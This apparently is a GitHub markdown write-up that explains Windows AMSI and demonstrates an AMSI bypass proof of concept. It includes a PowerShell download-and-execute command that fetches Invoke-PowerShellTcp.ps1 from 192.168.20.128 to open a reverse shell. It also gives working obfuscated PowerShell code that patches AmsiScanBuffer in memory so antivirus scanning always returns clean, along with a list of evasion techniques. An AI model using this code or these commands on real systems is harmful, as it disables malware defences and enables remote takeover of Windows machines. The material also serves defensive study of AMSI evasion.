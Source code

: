 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Obfuscation Methodolgy Anlysis**](#section-3)
- [ **Credits & Reference**](#section-4)
## Outline 


## AMSI 
AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. This prevents arbitrary execution of code. Thus, when a script is about to be executed, it passes through AMSI, which scans the script's content for suspicious or malicious behavior. 

## AMSI Logic
When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware.

AmsiScanBuffer()
AmsiScanString()
If a known signature is identified execution doesn’t initiate and a message appears that the script has been blocked by the antivirus software

# AMSI Bypass Technique
The following evasive techniques aim to avoid detection by antivirus and security software.  

Code Fragmentation: Divide codes into smaller components and assemble at runtime, evading static analysis.
Obfuscation: Utilize obfuscation techniques to obscure the true intent of the script, making it challenging for AMSI scanners to interpret the code accurately.
Memory patching: Modify the AMSI Dynamic Link Library (DLL) in memory to either disable or alter its functionality temporarily. 
Powershell Downgrade: Downgrade to Windows PowerShell 2.0. It lacks essential security controls like AMSI protection, making it susceptible to exploitation as a means of evasion.

## Proof of Concept

![](/assets/AV/Final.gif)   
To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through powershell using the below command
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI sucessfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
In order to bypass the AMSI, the tester 
```bash
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$why = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$hmm = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($hmm)
$dest = [payload]::GetProcAddress($librarz, $why)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```

## Memory Patching
Daniel Duggan released an AMSI bypass which patches the AmsiScanBuffer() function in order to return always AMSI_RESULT_CLEAN which indicates that no detection has been found. The patch is displayed in the following line:
```bash 
static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
```




## Weaponization

## Reference
- Read team playbook, Offensive Security